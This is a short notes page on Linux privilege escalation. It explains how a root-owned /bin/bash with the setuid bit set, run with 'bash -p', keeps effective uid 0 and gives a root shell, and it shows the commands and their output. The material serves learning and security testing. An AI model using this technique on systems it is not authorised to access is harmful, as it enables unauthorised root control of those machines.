 ```yaml
---
title: Linux Privilege Escalation
sidebar_label: Linux Privilege Escalation
---
```

* [setuid](#setuid)
  * [`bash -p`](#bash--p)

## SETUID
### `bash -p`
The payload upon execution sets the `setuid` bit on `/bin/bash` binary. We can check the same as follows 
```sh
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
```
If a `setuid` bit is set on a binary, the binary can be executed with the effective user id of the user who owns the binary. In this case the setuid/setgid bit is set on `bash` which is owned by `root`.

By default, if the effective user id and the real user id are not equal, `bash` will set the effective user id to the real user id. In this case, the bash process will be started with the user `user`.

In order, to prevent the effective user id from resetting to the real user id, the `-p` option has to be passed. Upon running the command `bash -p`, the bash binary will run with effective user id `0`, providing a root shell.
```sh
$ bash -p
bash-4.4# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
bash-4.4# whoami
root
```
